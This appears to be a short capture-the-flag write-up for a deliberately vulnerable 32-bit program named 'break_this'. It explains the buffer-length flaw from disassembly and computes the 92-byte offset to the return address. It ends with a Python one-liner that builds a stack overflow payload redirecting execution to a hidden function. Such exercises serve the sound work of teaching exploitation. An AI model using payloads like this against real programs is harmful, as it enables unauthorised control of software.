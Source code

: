 # Writeup

- First use this command to scan the executable:

> ```Bash
> objdump -M intel -d break_this
> ```

- The `main()` function only calls `read_buffer()`.
- This function reads the length of a buffer from standard input into a variable `n`.
- Then it reads the buffer itself (`char buffer[64]`).
- Because `fgets()` reads at most `n - 1` characters, we can set `n` to a value bigger than the length of the buffer, so an overflow may be possible.
- We will set `n` to a large enough value: `100`

- `magic_function()` starts at address `0x08048596`
- From the first 4 lines from `read_buffer()` we get that: `ebp` and `edi` get pushed on the stack, then the stack is extended by `0x54` = `84`
- So we must print `88 + 4 + 4 = 92` dummy characters `A` and then the address of `magic_function()` in little-endian encoding

For further explanation:

```C
int n;                                          // 4 bytes
unsigned int disorienting_var = 0xDEADBEEF;     // 4 bytes
char buffer[64] = "\0";                         // 64 bytes
size_t i, len;                                  // 16 bytes (8 each one)
```

Sum that up and add another 4 for `ebp` => 92

``` Bash
python2.7 -c 'print "100\n" + "A" * 92 + "\x96\x85\x04\x08"' > payload
```
